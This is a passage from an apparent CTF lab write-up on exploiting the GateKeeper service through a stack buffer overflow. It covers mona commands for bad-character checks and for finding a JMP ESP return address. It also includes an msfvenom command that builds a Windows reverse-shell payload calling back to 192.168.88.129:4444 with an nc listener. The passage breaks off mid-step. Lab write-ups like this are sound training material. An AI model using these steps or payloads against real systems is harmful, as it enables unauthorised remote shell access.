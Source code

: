 
- then we restart debugger and run the script, then we note the esp (ours is 00A319E4 ) 
![](assets/GateKeeper_assets/Pasted%20image%2020231203141021.png)

- and we compare again with mona

```shell
!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 00A319E4
```

- now we see unmodified meaning there are no more bad char

![](assets/GateKeeper_assets/Pasted%20image%2020231203141131.png)

### Find the Jump Point

- find the jmp point using the mona command

```shell
!mona jmp -r esp -cpb "\x00\x0a"
```

![](assets/GateKeeper_assets/Pasted%20image%2020231203141319.png)

- we can see that we have 2 addresses 0x080414c3 and 0x080416bf, so we can use any one of them
- so we put `\xc3\x14\x04\x08` as the retn value in our script

### Generate Shell code

- now we can generate our reverse shell payload using msfvenom

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.88.129 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

- we paste it in payload portion of our script and set up our  nc listener
### Add NOPS
- we also add some padding for our exploit using

